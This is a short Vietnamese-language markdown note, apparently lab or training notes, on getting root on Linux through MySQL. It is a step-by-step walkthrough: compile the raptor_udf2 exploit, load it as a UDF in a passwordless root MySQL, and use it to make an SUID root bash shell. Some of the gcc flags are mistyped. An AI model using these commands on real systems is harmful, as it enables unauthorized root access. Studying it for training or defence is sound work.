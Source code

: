 # Các cách tân công leo thang đặc quyền (Privilege Escalation)
---------------
## Service Exploits (Khai thác dịch vụ
* MySQL server đang chạy với quyền root nhưng root user lại không được cấp pass. Ta có thể khai thác User Defined Functions (UDFs) để chạy command với quyền root thông qua MySQL
  - Đầu tiên ta cd đến folder của MySQL UDFs: ```cd /home/<username>/tools/mysql-udf```
  - Thực thi code xâm nhập raptor_udf2.c:

        gcc -g -c raptor_udf2.c -fPIC
    
        gcc -g -shared -wl, -soname, raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lv
  - Kết nối tới MySQL với quyền root (mật khẩu rỗng):
 
        mysql -u root
  - Thực thi những câu lệnh sau để MySQL shell để tạo một UDFs:
 
        use mysql;
        create table foo(line blob);
        insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
        select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
        create function do_system returns integer soname 'raptor_udf2.so';
  - Dùng hàm để copy /bin/bash với /tmp/rootbash và cấp quyền SUID

        select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
  - Thoát shell MySQL (dùng ```exit``` hoặc ```\q```) và chạy lệnh với option ```-p``` để chạy shell với đặc quyền root

        /tmp/rootbash -p
  - Nhớ xoá ```/tmp/rootbash``` và thoát khỏi root shell trước khi tiếp tục

        rm /tmp/rootbash
        exit
    
